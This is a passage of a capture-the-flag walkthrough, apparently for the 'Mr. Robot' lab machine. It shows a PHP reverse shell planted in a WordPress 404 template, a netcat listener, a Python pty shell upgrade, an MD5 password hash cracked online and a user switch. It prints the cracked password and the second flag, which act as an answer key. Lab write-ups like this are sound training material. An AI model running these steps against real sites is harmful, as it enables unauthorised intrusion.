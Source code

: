 ## Exploitation
From that point there are a lot of attack vectors, for example, you can craft malicious plugin and install it, or get the data from the database,
We will follow the probably easiest way - [RCE](https://www.bugcrowd.com/glossary/remote-code-execution-rce/)
An example of PHP reverse shell can be found of [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), for example.
From the admin panel in */wp-admin* page we can edit any template files, the first in a list is "404 Template", so we will use that.
Just put the code from PentestMonkey's to the editor and tweak IP and port to yours.
On your host open the terminal and set up a listener to catch the shell when it will be triggered:
```
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
```
Open a 404.php page in a browser or trigger it by curl from your terminal:
```
root@kali:~# curl http://192.168.159.129/404.php
```
If the IP and port were set up properly, you will have a response in a terminal:
```
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ whoami
daemon
$ hostname
linux
```
Hooray! You are in. Look around and open */home/robot* folder:
```
root@kali:~# cd /home/robot
```
There are two files there, *key-2-of-3.txt* and *password.raw-md5*.
To be able to login to the robot session we heed to have a [TTY shell](https://unix.stackexchange.com/questions/4126/what-is-the-exact-difference-between-a-terminal-a-shell-a-tty-and-a-con).
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
The second flag is very close, but you have a shell as daemon user, who don't have the access to this file.
Luckily you have a hash of the password nearby, open any tool for decoding MD5, for example [MD5Online](https://www.md5online.org/md5-decrypt.html), and decode it:
```
Found : abcdefghijklmnopqrstuvwxyz
(hash = c3fcd3d76192e4007dfb496cca67e13b)
```
Going back to the terminal with the reverse shell in it:
```
$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ whoami
whoami
robot
```
Now we are logged in as a robot user and we can open *key-2-of-3.txt*:
```
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
The second key is
```
822c73956184f694993bede3eb39f959
```